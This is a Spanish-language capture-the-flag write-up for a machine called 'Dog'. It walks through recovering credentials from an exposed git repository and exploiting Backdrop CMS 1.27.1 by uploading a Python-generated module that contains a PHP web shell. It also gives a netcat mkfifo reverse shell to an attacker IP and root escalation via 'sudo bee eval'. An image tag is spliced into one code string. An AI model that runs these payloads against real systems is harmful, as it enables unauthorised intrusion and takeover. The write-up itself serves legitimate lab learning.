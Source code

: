 ```yaml
---
title: "Dog"
date: "2025-03-08T00:04:43-05:00"
draft: true
tags: ["backdrop", "bee", "linux", "sudoers", "git-dumper"]
---
```


# Dog

Maquina sencilla en la que por medio de un git encontramos credenciales para poder luego hacer uso de un exploit con el cual obtendremos ejecucion de comandos para luego reusar las credenciales con los usuarios que podremos listar, para el root fue explotacion de un binario muy sencillo.
Dificultad: Facil

# Enumeración

```jsx
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allports
sudo nmap -sCV -p22,80 "$ip_target" -A -oN target
```
<a href="https://imgur.com/tzfb8Ub"><img src="https://i.imgur.com/tzfb8Ub.png" title="source: imgur.com" /></a>

Encontramos un git por lo que vamos a usar git-dumper y tratar de restaurar el git, primero vamos a instalar la herramienta.

```jsx
pipx install git-dumper
git-dumper http://IP/.git git
cd git
git reset --hard
cat settings.php
```

Y ahi tendremos una contraseña:

<a href="https://imgur.com/a38Rciw"><img src="https://i.imgur.com/a38Rciw.png" title="source: imgur.com" /></a>

Para hallar usuarios validos lo vamos a hacer tambien en el git usando grep así:

```jsx
grep -r -i -l '@dog.htb' . 2>/dev/null
```

<a href="https://imgur.com/wXcZRsI"><img src="https://i.imgur.com/wXcZRsI.png" title="source: imgur.com" /></a>

# Puerto 80

Ahora con ese usuario y contraseña podemos ingresar si miramos por la pagina encontraremos la verison en el link http://IP/?q=admin/reports/updates

<a href="https://imgur.com/C3nuz53"><img src="https://i.imgur.com/C3nuz53.png" title="source: imgur.com" /></a>

Y si buscamos encontraremos una vulnerabilidad de esta version [Exploit](https://www.exploit-db.com/exploits/52021).

# Exploit

Vamos a modificar el script para que en vez de .zip nos lo guarde en el formato haceptado .tar.gz

```jsx
import os
import time
import tarfile

def create_files():
    info_content = """
    type = module
    name = Block
    description = Controls the visual building blocks a page is constructed
    with. Blocks are boxes of content rendered into an area, or region, of a<a href="https://imgur.com/4H7qVEl"><img src="https://i.imgur.com/4H7qVEl.png" title="source: imgur.com" /></a>
    web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x

    configure = admin/structure/block

    ; Added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1709862662
    """
    shell_info_path = "shell/shell.info"
    os.makedirs(os.path.dirname(shell_info_path), exist_ok=True)  # Crea el directorio
    with open(shell_info_path, "w") as file:
        file.write(info_content)

    shell_content = """
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    if(isset($_GET['cmd']))
    {
    system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
    """
    shell_php_path = "shell/shell.php"
    with open(shell_php_path, "w") as file:
        file.write(shell_content)
    return shell_info_path, shell_php_path

def create_tar(info_path, php_path):
    tar_filename = "shell.tar.gz"
    with tarfile.open(tar_filename, 'w:gz') as tarf:
        tarf.add(info_path, arcname='shell/shell.info')
        tarf.add(php_path, arcname='shell/shell.php')
    return tar_filename

def main(url):
    print("Backdrop CMS 1.27.1 - Remote Command Execution Exploit")
    time.sleep(3)

    print("Evil module generating...")
    time.sleep(2)

    info_path, php_path = create_files()
    tar_filename = create_tar(info_path, php_path)

    print("Evil module generated!", tar_filename)
    time.sleep(2)

    print("Go to " + url + "/admin/modules/install and upload the " +
          tar_filename + " for Manual Installation.")
    time.sleep(2)

    print("Your shell address:", url + "/modules/shell/shell.php")

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 2:
        print("Usage: python script.py [url]")
    else:
        main(sys.argv[1])
```

<a href="https://imgur.com/VJTtoEe"><img src="https://i.imgur.com/VJTtoEe.png" title="source: imgur.com" /></a>

Vamos a usar la siguiente revshell:

```bash
#Nuestra maquina
nc -lvnp 4444

#Pagina
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 4444 >/tmp/f
```

# Usuario

Si listamos usuarios en el home veremos dos usuarios:

<a href="https://imgur.com/XK8ClEV"><img src="https://i.imgur.com/XK8ClEV.png" title="source: imgur.com" /></a>

Si reusamos la contraseña que teniamos con johncusak tendremos acceso a la flag de usuario.

# Root

Si listamos permisos sudoers tendremos el bin  `bee` :

<a href="https://imgur.com/zImnC79"><img src="https://i.imgur.com/zImnC79.png" title="source: imgur.com" /></a>

Si ejecutamos el binario veremos lo que podemos hacer entre esas hay una muy interesante en la cual podemos ejecutar codigo php:

<a href="https://imgur.com/4H7qVEl"><img src="https://i.imgur.com/4H7qVEl.png" title="source: imgur.com" /></a>

Por lo que vamos a tratar de darnos una bash como root:

```bash
sudo bee eval "shell_exec('/bin/bash');”
```

Y listo root facilito e interesante solo tocaba leer.
